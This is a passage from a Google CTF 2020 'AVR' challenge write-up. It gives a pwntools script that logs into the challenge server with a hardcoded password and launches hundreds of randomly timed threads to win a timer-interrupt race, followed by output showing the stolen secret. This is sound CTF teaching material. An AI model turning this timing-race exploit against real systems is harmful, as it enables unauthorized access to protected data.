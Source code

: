 And here is the last present from our sweet developers at GOOGLE - in the beginning of each menu iteration - the time status is printed. If we see `Timer: on` that means that we have succeeded - and the timeout timer went off after the `sei`!!!

And here is some code:

```python
#!/usr/bin/env python
from pwn import *
import random
import time
import tqdm


def rand_test():
    # randomly, we will wait the exact time to cause the interrupt
    sleep_time = random.uniform(0, 1)
    context.log_level = 30
    io = remote("avr.2020.ctfcompetition.com",1337)

    io.send("\n") # the timer starts after this

    time.sleep(sleep_time)
    io.send("agent\ndoNOTl4unch_missi1es!\n")

    io.send("2\n")

    data = io.readuntil("Access granted")
    data = io.readuntil("Menu:")
    if "on." in data:
        
        for i in range(40):
            time.sleep(2)
            io.send("2\n")
            io.interactive()
        exit()
    io.close()

while True:
    ts = []
    for i in tqdm.tqdm(range(500)):
        t = threading.Thread(target=rand_test)
        t.start()
        ts.append(t)
    for t in tqdm.tqdm(ts):
        t.join()

```

Example output:

```
david@DAVID-PC:/mnt/d/work/ctfs/google-ctf-2020/AVR$ ipython sol2.py
100%|███████████████████████████████████████████████████████████████████████████████| 500/500 [00:00<00:00, 1355.50it/s]
 27%|██████████████████████▏                                                          | 137/500 [00:06<01:00,  6.02it/s]
1. Store secret data.
2. Read secret data.
3. Copy top secret data.
4. Exit.
Choice: Stored secret:
---
INeration SIERRA TANGO ROMEO:
Radio frequency: 13.37MHz
Received message: ATTACK AT DAWN
```

[here]: https://en.wikipedia.org/wiki/Timing_attack#:~:text=In%20cryptography%2C%20a%20timing%20attack,taken%20to%20execute%20cryptographic%20algorithms.
[datasheet]: http://ww1.microchip.com/downloads/en/DeviceDoc/Atmel-7810-Automotive-Microcontrollers-ATmega328P_Datasheet.pdf